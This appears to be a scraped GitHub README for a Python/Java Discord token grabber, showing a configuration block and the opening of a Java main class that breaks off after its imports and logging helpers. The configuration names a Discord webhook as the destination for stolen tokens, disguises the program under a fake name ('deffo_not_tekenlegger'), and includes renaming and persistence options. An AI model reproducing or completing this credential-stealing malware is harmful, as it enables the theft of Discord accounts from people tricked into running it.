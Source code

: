 # Discord-token-Grabber
Python grabber discord
Token Grabber a utilisé pour sois



webhook
.{
  "write_to_file": "true",
  "debug": "true",
  "hide_As": "deffo_not_tekenlegger",
  "discord_avatar_url": "https://i.ibb.co/fps45hd/steampfp.jpg",
  "discord_username": "Token Grab",
  "discord_webhook_url": "https://discord.com/api/webhooks/901278698215452672/PQmskGxP6y9Yq4-M0QAYVBkMZq3ixOdEWGAvOG6rFzJ5leXHp5wXRFwdg0vqjtGeYXZ",
  "send_embed": "true",
  "ensure_valid": "true",
  "randomize_new_name": "true",
  "shouldPersist": "false"
}



main.java


import java.io.*;
import java.net.*;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Path;
import java.text.SimpleDateFormat;
import java.util.*;
import java.util.regex.Matcher;
import java.util.regex.Pattern;

public class Main {
    private static boolean debug = true; // Whether or not everyting should be displayed on terminal window
    private static boolean output = true; // Whether or not everyting should be written to a file
    private static BufferedWriter writer;
    private static StringBuilder final_text = new StringBuilder();

    private static void print(String s) {
        if (debug) {
            System.out.println(s);
        }
        if (output) {
            final_text.append(s).append("\n");
        }
    }

    public static void main(String[] args) throws Exception {
        // TODO: Add more MacOS Options
        // IMPORTANT: Not tested on MacOS or Linux (hopefully works)
